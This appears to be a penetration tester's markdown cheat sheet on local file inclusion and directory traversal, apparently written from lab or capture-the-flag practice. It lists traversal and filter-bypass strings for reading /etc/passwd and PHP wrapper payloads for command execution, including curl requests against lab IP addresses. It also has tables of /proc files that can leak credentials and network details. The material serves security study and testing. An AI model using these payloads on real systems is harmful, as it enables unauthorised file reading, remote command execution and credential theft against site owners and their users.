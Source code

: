 # File Inclusion / Directory Traversal

[Hacktricks](https://book.hacktricks.xyz/pentesting-web/file-inclusion)

[PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion)

[Blog](https://www.netspi.com/blog/technical/web-application-penetration-testing/directory-traversal-file-inclusion-proc-file-system/) The Proc File System

[Tool ](https://github.com/D35m0nd142/LFISuite)

## LFI

```
 /etc/passwd on Linux or C:\Windows\boot.ini on Windows
 #if input from parameters used as part of filenames
 we can bypass by adding /../ in the
  
 # if Blacklisting is not coded correctly
 ..././ and ....// would become ../ vice vers sa
 cat .?/.*/.?/etc/passwd.
 Bash allows for for the ? and * wildcards to be used as wildcard
 
 #On PHP versions 5.3.4 and earlier, string-based detection could be bypassed by URL encoding the payload. 
 The characters ../ can be URL encoded into %2e%2e%2f, which will bypass the filter.
```

PHP provides various wrappers, which can be used for easier access to files, protocols, or streams. A list of wrappers can be found [here](https://www.php.net/manual/en/wrappers.php.php). The `php://` wrapper is enabled by default and interacts with IO streams.

PHP filter to convert file contents to Base64

```
 php://filter/read=convert.base64-encode/resource=/etc/passwd
 #we can get the source code and decode it
 curl http://134.209.184.216:32391/extension/index.php?language=php://filter/read=convert.base64-encode/resource=config
```



### PHP filter to convert file contents to ROT13

```
php://filter/read=string.rot13/resource=/etc/passwd
```

### Command execution with PHP `Expect` wrapper

```
expect://id
```

#### Using PHP `Input` wrapper for command execution

```
curl -s -X POST --data "<?php system('id'); ?>" "http://134.209.184.216:30084/index.php?language=php://input"
```

### Command execution with the PHP `Zip` wrapper

```
zip://malicious.zip%23exec.php&cmd=id
```

## The Proc File System

| Directory                       | Description                                                                                                                                                                                        |
| ------------------------------- | -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| /proc/sched\_debug              | This is usually enabled on newer systems, such as RHEL 6.  It provides information as to what process is running on which cpu.  This can be handy to get a list of processes and their PID number. |
| /proc/mounts                    | Provides a list of mounted file systems.  Can be used to determine where other interesting files might be located                                                                                  |
| /proc/net/arp                   | Shows the ARP table.  This is one way to find out IP addresses for other internal servers.                                                                                                         |
| /proc/net/route                 | Shows the routing table information.                                                                                                                                                               |
| /proc/net/tcp and /proc/net/udp | Provides a list of active connections.  Can be used to determine what ports are listening on the server                                                                                            |
| /proc/net/fib\_trie             | This is used for route caching.  This can also be used to determine local IPs, as well as gain a better understanding of the target’s networking structure                                         |
| /proc/version                   | Shows the kernel version.  This can be used to help determine the OS running and the last time it’s been fully updated.                                                                            |



| Directory            | Description                                                                                                                                                                           |
| -------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| /proc/\[PID]/cmdline | Lists everything that was used to invoke the process. This sometimes contains useful paths to configuration files as well as usernames and passwords.                                 |
| /proc/\[PID]/environ | Lists all the environment variables that were set when the process was invoked.  This also sometimes contains useful paths to configuration files as well as usernames and passwords. |
| /proc/\[PID]/cwd     | Points to the current working directory of the process.  This may be useful if you don’t know the absolute path to a configuration file.                                              |
| /proc/\[PID]/fd/\[#] | Provides access to the file descriptors being used.  In some cases this can be used to read files that are opened by a process.                                                       |
